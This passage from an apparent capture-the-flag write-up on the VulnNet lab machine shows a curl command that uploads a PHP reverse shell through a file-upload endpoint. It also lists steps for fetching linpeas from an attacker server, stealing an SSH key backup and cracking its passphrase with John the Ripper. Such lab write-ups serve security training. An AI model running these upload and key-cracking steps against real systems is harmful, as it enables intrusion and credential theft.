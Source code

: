 <br>
<br>
<br>

<img width="1139" height="605" alt="image" src="https://github.com/user-attachments/assets/06b20834-2bfb-4e85-876f-101675270c3e" />

<br>
<br>
<br>

```bash
:~/VulnNet# curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" http://developers:-----------sls@broadcast.vulnnet.thm/actions/beats_uploader.php -X POST
creating file{"success":"yes","file_name":"1759778588419aa2","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"} 
```

<img width="1122" height="287" alt="image" src="https://github.com/user-attachments/assets/320c0d47-ebf4-4fc2-888e-2e7887926b4f" />

<br>
<br>
<br>
<br>
<h1 align="center">Initial Foothold<a id='6'></h1>
<p>

- Set up an HTTP server in the attacker machine. Downloaded <code>linpeas.sh</code>, changed its permissions, and executed it. It highlighted <strong><ins>/var/backups/ssh-backup.tar.gz</ins></strong> owned by <strong>system-management</strong>.<br><br>
- Set up an HTTP server in the target machine. Downloaded <strong><ins>ssh-backup.tar.gz</ins></strong>.<br><br>
- Uncompressed it using <code>tar</code>, and obtained <strong><ins>id_rsa</ins></strong>.<br><br>
- Attempedd SSH login and identified that a passphrase was required.<br><br>
- Made a backup of <strong><ins>id_rsa</ins></strong>.<br><br>
- Converted the encrypted private key into a John the Ripper format using <code>ssh2john</code>. Used John to crack the passphrase.<br><br>
- Logged in as <strong>system-management</strong> via <code>SSH</code>. Initial foothold achieved.</p>

<br>

```bash
[+] Backup files?
...
-rw-rw-r-- 1 server-management server-management 1484 Jan 24  2021 /var/backups/ssh-backup.tar.gz
...
```

<br>

```bash
www-data@vulnnet:/var/backups$ ls -lah
total 2.3M
drwxr-xr-x  2 root              root              4.0K Oct  6 20:12 .
drwxr-xr-x 14 root              root              4.0K Jan 23  2021 ..
-rw-r--r--  1 root              root               50K Jan 23  2021 alternatives.tar.0
-rw-r--r--  1 root              root               14K Jan 23  2021 apt.extended_states.0
-rw-r--r--  1 root              root                11 Jan 23  2021 dpkg.arch.0
-rw-r--r--  1 root              root                43 Jan 23  2021 dpkg.arch.1.gz
-rw-r--r--  1 root              root                43 Jan 23  2021 dpkg.arch.2.gz
-rw-r--r--  1 root              root               280 Jan 23  2021 dpkg.diversions.0
-rw-r--r--  1 root              root               160 Jan 23  2021 dpkg.diversions.1.gz
-rw-r--r--  1 root              root               160 Jan 23  2021 dpkg.diversions.2.gz
-rw-r--r--  1 root              root               265 Jan 23  2021 dpkg.statoverride.0
-rw-r--r--  1 root              root               195 Jan 23  2021 dpkg.statoverride.1.gz
-rw-r--r--  1 root              root               179 Jan 23  2021 dpkg.statoverride.2.gz
-rw-r--r--  1 root              root              1.4M Jan 25  2021 dpkg.status.0
-rw-r--r--  1 root              root              378K Jan 23  2021 dpkg.status.1.gz
```